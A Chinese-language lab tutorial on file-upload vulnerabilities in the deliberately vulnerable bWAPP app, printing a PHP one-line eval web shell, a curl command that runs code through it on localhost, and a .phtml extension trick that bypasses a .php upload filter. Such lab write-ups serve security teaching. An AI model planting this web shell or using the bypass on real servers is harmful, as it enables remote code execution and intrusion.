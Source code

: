 # 文件上传漏洞

以 bWAPP 环境下的 Unrestricted File Upload 为例，来看文件上传是如何导致安全问题的。

## bWAPP 基础

bWAPP, buggy web application, 该程序中集成了各种常见漏洞，目的是作为漏洞测试的演练场，为 web 安全爱好者和开发人员提供一个测试平台。

其安装和登入不再赘述。

## php 的一句话漏洞

在 php 中，提供了诸如 `evel` 的函数，其作用就是将参数作为 php 代码解析并执行。

新建脚本文件 file.php:

```php
<?php @eval($_POST['hacker']); ?>
```

之后，将该文件上传到 bWAPP 内，流程为：

![上传过程](https://img-blog.csdnimg.cn/20210618111741721.gif)

> 页面上方出现 test 字段，表明上传成功

此时，需要注意，我们选定的安全等级为 low:

![安全等级为 low](https://img-blog.csdnimg.cn/20210618111900314.png)

随后，访问本地内 bWAPP 下的 images/file.php 路径：

![上传文件的路径](https://img-blog.csdnimg.cn/20210618112037320.png)

可见，文件已经上传成功。

## 用 curl 来 post 数据

现在，漏洞就已经出现了，bWAPP 上有了一段能执行任何 php 代码的函数，因此，可以对其发送请求，进而获取服务器上的内容：

```bash
curl -d "hacker=echo getcwd();" http://127.0.0.1/images/file.php
# -d 表示为 post data
# hacker= 是因为 file.php 读取的是 hacker 下的字段
# getcwd 为获取当前工作目录的函数
```

![执行结果](https://img-blog.csdnimg.cn/20210618112547564.png)

可见，上述代码执行完成，成功获取了服务器当前的工作目录。

## 提高安全等级

如果将安全等级提高到 middle, 则会拦截所有的 php 文件上传：

![拦截 php 文件上传](https://img-blog.csdnimg.cn/2021061811284611.png)

此时，看似没有办法上传 php 文件了，其实并非如此。

## 后缀名绕过

思考下列问题：

- 问题 1: 服务器是如何判断当前文件类型的？

答：依据文件后缀。

- 问题 2: 服务器是如何解析文件的？

答：依照服务器配置文件。（所谓解析文件，例如 .css 文件，服务器会将其认为是需要处理的文件交给浏览器解析，而不是一串字符串）

bWAPP 的 web server 为 apache, 它对文件解析的配置文件位于以下目录：

![apache 文件解析的配置](https://img-blog.csdnimg.cn/20210618113319606.png)

红框部分标注出 php 文件的解析规则，查看可知，只要满足 `.+\.ph(p[345]?|t|tml)$` 后缀的都会按照 php 文件来处理。

![匹配规则](https://img-blog.csdnimg.cn/20210618113450581.png)

那么，后缀名绕过的实现原理便可以归结为：将 file.php 后缀更改为 phtml（它依旧满足正则要求，因此可以被服务器认定为 php 文件），但它绕过 .php 后缀限制。

就此，我们将 file.phtml 上传，随后执行 curl 请求，结果为：

![结果](https://img-blog.csdnimg.cn/20210618113837850.png)

可见，成功绕过了后缀名限制。

## 将安全等级调到最高

将安全等级调成最高，之后上传 file.phtml, 其结果为：

![只支持 png, jpg 文件](https://img-blog.csdnimg.cn/2021061812081073.png)

可见，此时文件上传功能以白名单的形式，限制只能上传 png 和 jpg 格式的文件。

此时，文件格式的限制，因此无法同时满足内容为 php 代码和服务器解析执行 php 代码两个部分，因此无法实现漏洞攻击。

